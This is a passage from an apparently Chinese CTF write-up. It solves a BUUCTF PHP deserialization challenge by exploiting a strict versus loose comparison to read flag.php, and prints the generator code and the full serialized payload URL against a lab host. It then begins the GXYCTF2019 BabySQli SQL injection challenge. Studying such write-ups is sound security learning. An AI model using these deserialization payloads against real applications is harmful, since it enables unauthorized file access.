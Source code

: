 思路是令 op 的值为 2 并且指定 filename 为 flag.php 从而读取 flag 的内容

但是 __destruct 前有个判断, 会更改 op 的值并清空 content

然而里面的  `if($this->op === "2")` 用的是 `===`, 也就是强类型比较

process 里面的 `else if($this->op == "2")` 用的是 `==`, 弱类型比较

所以我们只需要把 op 设置成 int 类型的就能绕过了

payload 如下

```php
<?php

class FileHandler {

    public $op = 2;
    public $filename = 'flag.php';
    public $content = '';

}

echo urlencode(serialize(new FileHandler()));
?>
```

如果访问修饰符是 protected 和 private 的话, 生成的字符串有 `%00`, 会被 is_valid 检测到

不过服务器的 PHP 版本是 7.4.3, 对访问修饰符不敏感, 全都改成 public 即可

```
http://022ddad7-d409-497d-9954-a37f4c6962f3.node4.buuoj.cn:81/?str=O%3A11%3A%22FileHandler%22%3A3%3A%7Bs%3A2%3A%22op%22%3Bi%3A2%3Bs%3A8%3A%22filename%22%3Bs%3A8%3A%22flag.php%22%3Bs%3A7%3A%22content%22%3Bs%3A0%3A%22%22%3B%7D
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208241918523.png)

## [GXYCTF2019]BabySQli

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208241934726.png)

提交 1 1 显示 `wrong user!`, 提交 admin 1 显示 `wrong pass!`

name 提交单引号报错, 但是 pw 不会

过滤了 or 和括号... 常规的 SQL 注入怎么说也得要括号吧

右键源代码发现一处注释

```html
<!--MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5-->
```

先 base32 解密再 base64 解密, 内容如下

```sql
select * from user where username = '$name'
```
